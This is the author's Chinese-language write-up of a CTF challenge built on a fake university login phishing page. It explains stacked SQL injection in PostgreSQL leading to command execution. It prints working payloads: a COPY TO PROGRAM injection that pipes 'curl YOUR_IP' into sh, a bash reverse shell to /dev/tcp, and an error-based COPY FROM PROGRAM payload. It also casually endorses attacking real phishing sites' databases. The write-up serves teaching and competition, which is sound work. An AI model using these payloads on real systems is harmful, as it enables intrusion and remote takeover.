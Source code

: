 # (2/2) 邮件系统功能升级

## 【困难】统一身份认证

按顺序，前边其实都不算什么难题，甚至跟传统的 Web 都没啥关系。想着整点 Traditional，复古风，于是便有了该题。要引用就不能断章取义，把邮件里的假得不能再假的统一身份认证界面拿来加强一下，成为了大家现在看到的样子。这应该也是大家在做题过程中，第一道遇到的比较像 CTF 的题。

该题其实改编自互联网中的**真实案例**。给大家看几个我邮箱里收到的典例：

有**询问型**的，不是中奖了，就是叫你去继承遗产，要么就说找你进行一本万利的买卖。

![image-20241021163307989](images/106-1.png)

有**账号型**的，不是邮箱过期了，就是检测到新的登录，要么就说存储空间已满。

![image-20241021163445372](images/106-2.png)

有**支付型**的，不是信用卡失效，就是银行账户异常，要么就给你发个账单叫你确认。

![image-20241021163752795](images/106-3.png)

有**威胁型**的，不是黑了你的网站，就是偷了你的密码，要么就说要把你的小视频发给亲朋好友。

![image-20241021164319146](images/106-4.png)

有**看不懂型**的，不知道啥语就往我邮箱里边发。

![image-20241021164730670](images/106-5.png)



当然，在国内更常见的其实不通过邮箱传播，而是 **QQ 等聊天工具**。大家在群里估计也经常会遇到，我就不多说了。那么言归正传，本次的题目其实相当于对盗号黑客的一个“**反制措施**”。他偷你密码，你就直接**脱他数据库**，非常的合理。我印象中，几年前经常遇到的很多模仿 QQ 登陆界面的盗号网站都是一个模板，我就那么随手一试，加了个单引号，诶，它就返回空白页面不转跳了。靠这种经典的 **SQL 注入**，在七八年前能直接吃下不少网站，可惜随着时代发展，ORM 框架的兴起，软件体系架构的完善，现在更是进入了 AI 代码的时代，这种野生的纯度极高的注入点实际已经基本上遇不到了，其实也不可惜，这是好事儿。

首先我这个假界面做得很逼真。小朋友们可以试着输入自己的**真实学号与真实密码**，会发现告诉你登录成功后就**直接转跳**到 stumail.neu.edu.cn 这个界面去了。这也是盗号网站的常用手法，你可能自己都不知道啥时候在钓鱼网站上输入了密码，它要么始终告诉你密码错误，要么你打啥都正确，最后再诶一转跳到官方网站上，你又输一遍密码登进去了，啥事没有，过几天 QQ 异地登录了才发现。

盗号网站为了防止你乱输，也为了不让你起疑心，一般也会对你的输入做一些基本的**合法性校验**。例如，QQ 盗号网站就喜欢整个屏幕键盘让你输，而不是调用手机默认的输入法。本题中，也是采用了类似的思想，校验了你输入的账号必须为**纯数字**并且在 **4~9 位**，否则提示账号不存在。所以用户名这个框是不可注入的。

在密码的框里打个**单引号**，会发现诶，爆出了一个经典的 **SQL Syntax Error**。

![image-20241021170838115](images/106-6.png)

以上这些都可以在一无所知的情况下通过基本的 fuzz test 测试出来。到这里，眼熟的同学们可能可以看出来，这是一个经典的 **PostgreSQL 报错**形式。再加上善良的出题人给的提示，*PostgreSQL => RCE*，实际上本题差不多做完了已经。一般 CTF 的考法会加一堆黑名单字符让你绕过，但是在这里善良的出题人并没有这么做，显然大大降低了本题的难度。

看到报错信息，其实已经可以把原本的 SQL 语句猜个八九不离十了：```INSERT INTO record (username, password, time) VALUES ('$username', '$password', NOW());```  

这里有一个很重要的特性，就是 PostgreSQL / SQL Server 默认是支持**多行执行**的（又被称作 **Stacked Injection 堆叠注入**），而如 SQLite、MySQL、Access（也是数据库） 一般需要代码中明确使用支持多行执行的系列函数。

支持多行执行，原本的 SQL 语句也有了，再加上善良的出题人给的 hint（ https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce-to-program ），你可以使用如下的密码直接闭合原有的语句并**反弹 shell** ：

```',NOW()); COPY (SELECT '') TO PROGRAM 'curl YOUR_IP|sh'-- -```

其中 YOUR_IP 应该返回如下的语句： ```bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'```

![image-20241021173533303](images/106-7.png)

**Very easy, my friend!**

更别说善良的出题人还贴心地为本题提供了外网访问支持，shell 可以弹到公网的服务器上，更可以通过一些在线 HTTP Request Inspector 服务来回显。

我注意到选手提交上来的 wp 中有使用 sqlmap 的，这玩意儿在盲注的情况下非常好用，但是本题可以爆错，error-based 就秒了。如果硬要用 sqlmap 跑的话，需要先分析请求格式。我是直接抄的 pass.neu.edu.cn 的 js 代码，ul 表示用户名长度，pl 表示密码长度，最后拼在 rsa 字段里，后边那些 ticket 啥的 CAS 相关内容就略过了，后端也不进行校验。

如果本题不出网，或者你懒得折腾 reverse shell，也是完全没有问题滴。

首先，我们输入如下的密码，可以验证其为 postgres  superuser ：

```
',NOW()); select cast((select current_user) as int); -- -
```

![image-20241021180201934](images/106-8.png)

然后，拷一个 **COPY FROM** 的模板，借助一点 pgSQL 的语法知识，把**执行回显**塞进报错里：

```
',NOW()); CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'cat /flag';select cast((select string_agg(cmd_output,',') from cmd_exec) as int); -- -
```

![image-20241021180355490](images/106-9.png)

**Still very easy, my friend!**

大家如果尝试注入获取数据库里的内容的话，会发现善良的出题人已经在里面提示 “try to get RCE” 了。

根目录下的 /flag 文件权限为 600，只有 root 能访问，因此题目环境中的 cat 命令被设置了 **SUID 标志位**，仅有 ```cat /flag``` 能够读取到 flag，防止 pgSQL 注入直接通过 pg_read_file() 读它，这也本题是要求 RCE 的原因。用了 cat 这个命令本意也是不想给大家设门槛，一般的 CTF 题目的话，这后面还会再套一层提权。

这个困难题是不是很简单呢，我的朋友？
